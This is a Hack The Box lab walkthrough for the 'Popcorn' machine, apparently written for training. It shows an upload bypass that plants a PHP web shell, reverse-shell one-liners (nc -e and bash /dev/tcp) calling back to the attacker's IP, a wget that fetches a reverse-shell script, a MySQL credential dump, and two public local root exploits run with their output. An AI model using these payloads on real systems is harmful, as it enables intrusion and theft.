









# \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br>  <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"></a> | </a> |

## Information Gathering

### Openning Services

+ Apache httpd 2.2.12

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.6
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 22,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.6 -p22,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 09:14 +07
Nmap scan report for 10.10.10.6
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.65 seconds
```

### Torrent Hoster

List of the hidden with gobuster, there is a special uri `torrent` which is Torrent Hoster.

```
[+] Files and directories
gobuster dir -q -e -k -u http://10.10.10.6:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
http://10.10.10.6:80/index                (Status: 200) [Size: 177]
http://10.10.10.6:80/test                 (Status: 200) [Size: 47041]
http://10.10.10.6:80/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
http://10.10.10.6:80/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/] 
```

Torrent Hoster hosted at `http://10.10.10.6/torrent/`.

At `register` page, let's sign up an account `user:user`.



Download a torrent and upload to the server like a normal using, example `kali-linux-2021.1-installer-amd64.iso.torrent` and upload it to Torrent Hoster.

```
wget https://images.kali.org/kali-linux-2021.1-installer-amd64.iso.torrent
```



After upload file successfully, go to `Edit this torrent` and update the torrent. We can update the torrent by adding a screenshot at `Update Screenshot`.



Update screenshot successfully



Let's find public exploit for Torrent hoster

``` bash
┌──(Hades㉿10.10.14.5)-[5.0:20.9]~
└─$ searchsploit torrent hoster
------------------------------------ ---------------------------------
 Exploit Title                      |  Path
------------------------------------ ---------------------------------
Torrent Hoster - Remount Upload     | php/webapps/11746.txt
------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Foothold

### File Upload Bypass

Based on [File Upload Bypass Techniques](https://infinitelogins.com/2020/08/07/file-upload-bypass-techniques/) and exploit `php/webapps/11746.txt`. We can upload an backdoor at `Update Screenshot`

Upload a normal image and intercept the request with Burp Suite. Change the content in the image to `<?php system($_GET['cmd']); ?>` and change the file name extension to `bymeacoffee.jpg.php`



Back to torrent file in the server and get the location of the backdoor.



Follow the url, I can access to the upload folder at `http://10.10.10.6/torrent/upload/`



### Gain Reverse Shell

Execute the backdoor and get reverse shell.

```
┌──(Hades㉿10.10.14.5)-[7.1:42.6]~/walkthrough/hackthebox/popcorn
└─$ curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Url encode payload with `hURL`

```
┌──(Hades㉿10.10.14.5)-[6.8:42.7]~
└─$ hURL -U 'nc -nv 10.10.14.5 443 -e /bin/sh'

Original    :: nc -nv 10.10.14.5 443 -e /bin/sh
URL ENcoded :: nc%20-nv%2010.10.14.5%20443%20-e%20%2Fbin%2Fsh
```

Execute payload

```
curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=nc%20-nv%2010.10.14.5%20443%20-e%20%2Fbin%2Fsh'
```

```
curl -G 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php' --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"
```



Also upload `php-reverse-shell.php` to the server and execute it to get the reverse shell.

```
curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=wget%2010.10.14.5%2Fphp-reverse-shell.php'
```

```
curl 'http://10.10.10.6/torrent/upload/php-reverse-shell.php'
```



## Privilege Escalation

### Mysql Credential

At `/var/www/torrent/config.php`, I got the clear text credential of mysql service.

```
www-data@popcorn:/var/www/torrent$ cat config.php
<snip>
  //Edit This For TORRENT HOSTER Database
  //database configuration
  $CFG->host = "localhost";
  $CFG->dbName = "torrenthoster";       //db name
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";   //db password
<snip>
```

In there, let's dump data, get Admin's hash, ...

```
www-data@popcorn:/var/www/torrent$ mysql -u torrent -p'SuperSecret!!'
<snip>

mysql> select * from users;
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
|  3 | Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     | admin@yourdomain.com | 2007-01-06 21:12:46 | 2007-01-06 21:12:46 | 
|  5 | user     | ee11cbb19052e40b07aac0ca060c23ee | user      | user@local           | 2021-04-01 19:03:10 | 2021-04-01 19:03:10 | 
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

### Linux PAM 1.1.0

At george's home folder, there is an interested folder named `.cache` containing file `motd.legal-displayed`.

```
www-data@popcorn:/home/george$ ls -laR
ls -laR
total 868

./.cache:
<snip>
-rw-r--r-- 1 george george    0 Mar 17  2017 motd.legal-displayed
```

It is [MOTD — Message of the Day](https://ubuntu.com/legal/motd). Using `searchsploit` to find some its exploit.

```
┌──(Hades㉿10.10.14.5)-[2.8:26.0]~/walkthrough/hackthebox/popcorn
└─$ searchsploit motd
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tam | linux/local/14273.sh
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tam | linux/local/14339.sh
MultiTheftAuto 0.5 patch 1 - Server Crash / MOTD De | windows/dos/1235.c
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I used exploit `linux/local/14339.sh` to get root in `Popcorn server`.

```
www-data@popcorn:/tmp$ bash 14339.sh
bash 14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

### 'Full-Nelson.c Exploit Kernel

Also check kernel, the OS version is `2.6.31-14-generic-pae`.

```
www-data@popcorn:/home/george$ uname -a
uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/home/george$ cat /etc/issue
cat /etc/issue
Ubuntu 9.10 \n \l
```

Search exploit using `searchsploit`

```
┌──(Hades㉿10.10.14.5)-[2.2:50.4]~
└─$ searchsploit Linux Kernel 2.6 Ubuntu
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
<snip>
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full | linux/local/15704.c
<snip>
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Tranfer exploit `15704.c` to `Popcorn server`, compile and execute it, I have root.

```
www-data@popcorn:/var/www$ gcc 15704.c -o 15704
gcc 15704.c -o 15704
www-data@popcorn:/var/www$ chmod +x 15704
chmod +x 15704
www-data@popcorn:/var/www$ ./15704
./15704
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf846a280
 [+] Resolved econet_ops to 0xf846a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Failed to set Econet address.
[*] Triggering payload...
[*] Got root!
# whoami
whoami
root
# 
```

## Reference 

[https://0xdf.gitlab.io/2020/06/23/htb-popcorn.html](https://0xdf.gitlab.io/2020/06/23/htb-popcorn.html)